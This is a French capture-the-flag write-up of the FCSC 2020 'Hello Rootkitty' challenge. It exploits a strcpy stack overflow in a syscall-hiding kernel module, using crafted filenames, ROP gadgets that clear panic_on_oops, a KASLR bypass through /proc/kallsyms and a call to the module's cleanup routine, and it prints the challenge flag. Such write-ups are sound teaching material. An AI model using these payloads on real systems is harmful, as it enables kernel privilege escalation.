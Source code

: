 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Hello Rootkitty"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro

Le challenge se compose d'un module Linux pour un kernel `4.14.167 amd64`. Celui-ci est chargé automatiquement dans une VM Qemu accessible via une connexion ssh sur la machine hôte.

# II - Analyse statique et le buffer overflow

Après une analyse statique du binaire avec *Ghidra*, nous remarquons que le module va modifier la table des syscalls et remplacer les syscalls `lstat`, `getdents` et `getdents64`.
Ces versions modifiées des syscalls vont faire appel aux syscalls d'origine et modifier leur retour de manière à masquer les informations à propos des fichiers commençant par `ecsc_flag_`. Le but est donc de trouver un moyen de contourner cette restriction de manière à pouvoir lire le fichier contenant le flag à la racine de la machine.

Après analyse de la version modifiée des syscalls, quelque chose de plutôt important est visible dans `ecsc_sys_getdents` et `ecsc_sys_getdents64`. Lorsque le module va lire ou écrire les noms des fichiers qu'il traite, il utilise la fonction `strcpy` ne possédant pas de protection contre une attaque de type *buffer overflow*. Comme le module ne possède pas de protection à base de *stack cookie*, il est possible d'utiliser un nom de fichier tellement long que l'adresse de retour de la fonction soit modifié nous permettant donc d'exécuter n'importe quel code avec les privilèges du kernel.

En utilisant un simple pattern, on peut facilement trouver quel caractère permet de contrôler `RIP` :

```
~ $ touch ecsc_flag_Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8A
c9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4A
g5Ag
~ $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 55 Comm: ls Tainted: G           O    4.14.167 #11
task: ffffa0a441c0a200 task.stack: ffffab2f4009c000
RIP: 0010:0x6441356441346441
RSP: 0018:ffffab2f4009ff38 EFLAGS: 00000282
RAX: 0000000000000548 RBX: 3563413463413363 RCX: 0000000000000000
RDX: 00007fff8b7c75a6 RSI: ffffab2f4009ff93 RDI: 00007fff8b7c74d3
RBP: 3364413264413164 R08: ffffab2f4009fed0 R09: ffffffffc02d2024
R10: ffffab2f4009fec0 R11: 6741346741336741 R12: 634137634136641
R13: 4130644139634138 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffbcc36000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 000000000124a138 CR3: 0000000001c7e000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6441356441346441 RSP: ffffab2f4009ff38
---[ end trace 39fccfc1f117da86 ]---
Segmentation fault
```

`RIP` est donc contrôlé par le 102ème caractère.

# III - Création d'une *ROP chain* pour désactiver `oops=panic`

L'un des principal problème rencontré est la présence de l'option `oops=panic` dans la ligne de commande du kernel, cette option provoque un kernel panic au moindre kernel oops or un kernel oops se produit lorsque quelque chose segfault dans le kernel mais que cela n'impactera pas complètement la stabilité du système. Il serait plutôt complexe de réussir à créer un exploit qui retourne dans un état stable sans provoquer un kernel oops, le plus simple reste donc de désactiver l'option `oops=panic` avant d'exécuter l'exploit final.

L'option `oops=panic` est représentée par la [variable globale `panic_on_oops`](https://elixir.bootlin.com/linux/v4.14.167/source/kernel/panic.c#L35), il faudrait donc construire une *ROP chain* permettant de mettre sa valeur à 0. Pour trouver les gadgets à utiliser il faut d'abord extraire le ELF original du kernel car celui-ci est compressé, ici en gzip, `binwalk` permet d'obtenir l'offset des données compressées puis `gunzip` permet de les décompresser.

On peut ensuite utiliser *[ROPGadget](https://github.com/JonathanSalwan/ROPgadget)* pour trouver des gadgets intéressants, voici ceux que j'ai choisi :
```
0xffffffff81269eee : pop rsi ; ret                                  [G1]
0xffffffff8115fac8 : mov dword ptr [rsi], 0 ; xor eax, eax ; ret    [G2]
```
Ils sont plutôt simple a utiliser et ont peux d'effets secondaires. On peut donc construire la *ROP chain* de cette manière :
```py
ropchain = (b"A" * 102) + struct.pack("Q", A_G1) + struct.pack("Q", A_oops) + struct.pack("Q", A_G2) + (b"I"
* 8)
```
Il ne faut pas oublier de prendre en compte l'ASLR du kernel mais celle-ci peut être facilement contrée car ses symboles sont accessibles via `/proc/kallsyms`, il suffit alors de comparer l'adresse de `startup_64` exposée par `kallsyms` avec celle du ELF du kernel.

# IV - Restauration des vrais syscalls

Pour restaurer les vrais syscalls `lstat`, `getdents` et `getdents64`, la méthode la plus simple et d'appeler la fonction `cleanup_module` du module. Les symboles du module sont eux aussi exposés par `kallsyms`.

En combinant ceci avec la *ROP chain* du paragraphe précédant, il est possible de retrouver le nom des fichiers commençant par `ecsc_flag_` :
```
~ $ cat /proc/kallsyms  | head
ffffffff8fe00000 T startup_64
ffffffff8fe00000 T _stext
ffffffff8fe00000 T _text
ffffffff8fe00030 T secondary_startup_64
ffffffff8fe000e0 T verify_cpu
ffffffff8fe001e0 T __startup_64
ffffffff8fe00390 T __startup_secondary_64
ffffffff8fe00398 t sanitize_boot_params.constprop.1
ffffffff8fe00430 t run_init_process
ffffffff8fe00460 t try_to_run_init_process
~ $ touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAA\xee\x9e\x06\x90\xff\xff\xff\xff\xb8K\x91\x90\xff\xff\xff\xff\xc8\xfa\xf5\x8f\xff
\xff\xff\xffIIIIIIII')"
~ $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 71 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9a8681e1aa80 task.stack: ffffb9094009c000
RIP: 0010:0x4949494949494949
RSP: 0018:ffffb9094009ff50 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: 0000000000000000
RDX: 00007ffed4099884 RSI: ffffffff90914bb8 RDI: 00007ffed40997f3
RBP: 4141414141414141 R08: ffffb9094009fed0 R09: ffffffffc01a7024
R10: ffffb9094009fec0 R11: ff8ff5fac8ffffff R12: 4141414141414141
R13: 4141414141414141 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff90836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007ffed40997b0 CR3: 0000000001eae000 CR4: 00000000000006b0
Call Trace:
 ? __kprobes_text_end+0x129b78/0x129b78
Code:  Bad RIP value.
RIP: 0x4949494949494949 RSP: ffffb9094009ff50
---[ end trace 7b7d593635ea5627 ]---
Segmentation fault
~ $ rm "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAA\xee\x9e\x06\x90\xff\xff\xff\xff\xb8K\x91\x90\xff\xff\xff\xff\xc8\xfa\xf5\x8f\xff\xff
\xff\xffIIIIIIII')"
~ $ ls
~ $ cat /proc/kallsyms | grep ecsc
ffffffffc01a82c8 b ref_sys_getdents64	[ecsc]
ffffffffc01a82d0 b ref_sys_getdents	[ecsc]
ffffffffc01a82c0 b ref_sys_lstat	[ecsc]
ffffffffc01a82e0 b my_sys_call_table	[ecsc]
ffffffffc01a82d8 b original_cr0	[ecsc]
ffffffffc01a636e t ecsc_end	[ecsc]
ffffffffc01a8000 d __this_module	[ecsc]
ffffffffc01a6150 t ecsc_sys_getdents	[ecsc]
ffffffffc01a636e t cleanup_module	[ecsc]
ffffffffc01a62a0 t ecsc_sys_lstat	[ecsc]
ffffffffc01a6000 t ecsc_sys_getdents64	[ecsc]
~ $ touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAnc\x1a\xc0\xff\xff\xff\xff')"
~ $ ls
BUG: unable to handle kernel NULL pointer dereference at           (null)
IP:           (null)
PGD 1e86067 P4D 1e86067 PUD 1e87067 PMD 0
Oops: 0010 [#2] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 84 Comm: ls Tainted: G      D    O    4.14.167 #11
task: ffff9a8681e1b300 task.stack: ffffb9094009c000
RIP: 0010:          (null)
RSP: 0018:ffffb9094009ff40 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: ffff9a8681e1b940
RDX: 0000000000000000 RSI: 0000000080000000 RDI: ffffffff9081b4c0
RBP: 4141414141414141 R08: ffff9a8681e1b358 R09: 0000000000000000
R10: ffffb9094009ff20 R11: ffff9a8680033348 R12: 4141414141414141
R13: 4141414141414141 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff90836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000000000000 CR3: 0000000001eb8000 CR4: 00000000000006b0
Call Trace:
 ? entry_SYSCALL_64_after_hwframe+0x3d/0xa2
Code:  Bad RIP value.
RIP:           (null) RSP: ffffb9094009ff40
CR2: 0000000000000000
---[ end trace 7b7d593635ea5628 ]---
Killed
~ $ ls
ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAnc??????
~ $ cd ..
/home $ ls
ctf
/home $ cd ..
/ $ ls
bin
dev
ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde2116676126
etc
home
init
lib
mnt
proc
root
run
sys
tmp
var
/ $ cat ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde21166761
26
ECSC{c0d801fb2045ddb0ab27766e52b7654ccde41b5fc00d07fa908fefa30b45b8a5}
```
